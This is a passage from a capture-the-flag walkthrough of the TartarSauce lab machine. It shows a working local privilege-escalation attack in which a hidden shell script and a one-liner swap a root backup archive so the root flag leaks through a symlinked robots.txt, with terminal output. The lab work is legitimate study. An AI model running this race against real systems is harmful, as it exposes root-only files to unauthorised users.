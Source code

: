 Now, upload this to target and run it. I’ll name it `.b.sh` for opsec:

```

onuma@TartarSauce:/dev/shm$ ./.b.sh
./.b.sh
Waiting for archive filename to change...
File changed... copying here
Waiting for new logs...
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Thu Oct 18 19:42:26 EDT 2018
------------------------------------------------------------------------
/var/tmp/.02af91fa0edeab13fce3962cddc45efefc22da67
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
<
---
> e79abdab...

```

And there’s the flag.

As a one-liner, it looks like this:

```

onuma@TartarSauce:/dev/shm$ cd /dev/shm; start=$(find /var/tmp -maxdepth 1 -type f -name ".*"); cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); while [ "$start" == "$cur" -o "$cur" == "" ] ; do sleep 10; cur=$(find /var/tmp -maxdepth 1 -type f -name ".*"); done; echo "File changed... copying here"; cp $cur .; fn=$(echo $cur | cut -d'/' -f4); tar -zxf $fn; rm var/www/html/robots.txt; ln -s /root/root.txt var/www/html/robots.txt; rm $fn; tar czf $fn var; mv $fn $cur; rm $fn; rm -rf var
File changed... copying here

onuma@TartarSauce: cat /var/backups/onuma_backup_error.txt
...
------------------------------------------------------------------------
Integrity Check Error in backup last ran :  Wed May 30 09:38:30 EDT 2018
------------------------------------------------------------------------
/var/tmp/.154b63306d83a3c63fb5d432d97be7807b521909
diff -r /var/www/html/robots.txt /var/tmp/check/var/www/html/robots.txt
1,7c1
< User-agent: *
< Disallow: /webservices/tar/tar/source/
< Disallow: /webservices/monstra-3.0.4/
< Disallow: /webservices/easy-file-uploader/
< Disallow: /webservices/developmental/
< Disallow: /webservices/phpmyadmin/
<
---
> e79abdab...
Only in /var/www/html/webservices/monstra-3.0.4/public/uploads: .empty

```
